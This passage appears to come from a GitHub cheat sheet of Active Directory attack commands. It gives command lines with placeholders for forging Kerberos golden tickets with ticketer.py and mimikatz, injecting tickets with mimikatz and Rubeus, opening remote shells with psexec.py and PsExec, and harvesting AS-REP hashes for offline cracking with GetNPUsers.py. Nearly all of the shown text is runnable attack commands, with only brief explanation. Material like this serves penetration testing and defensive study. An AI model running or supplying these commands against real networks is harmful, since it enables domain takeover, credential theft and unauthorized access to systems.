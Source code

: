 ```
> ticketer.py -nthash <ntlm> -domain-sid <sid> -domain <domain> -user-id 500 Administrator -spn <spn>/<domain>

# use the ticket
export KRB5CCNAME=<fake-user>.ccache

# use psexec.py to pop a shell as the non-existent user <fake-user> on any host in the Domain for which the SID was provided
> psexec.py <domain>/<fake-user>@<dc> -k -no-pass -dc-ip <dc-ip> -target-ip <target-ip>
```
- windows:
```
# To generate the TGT with NTLM
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<krbtgt_ntlm_hash> /user:<user_name>

# To generate the TGT with AES 128 key
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name>

# To generate the TGT with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name>

# Inject TGT with Mimikatz
mimikatz # kerberos::ptt <ticket_kirbi_file>

# Inject ticket with Rubeus:
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>

# Execute a cmd in the remote machine with PsExec:
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

### ASREPRoast
- The ASREPRoast attack looks for users without Kerberos pre-authentication required attribute (DONT_REQ_PREAUTH).
- That means that anyone can send an AS_REQ request to the DC on behalf of any of those users, and receive an AS_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline.
```
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```
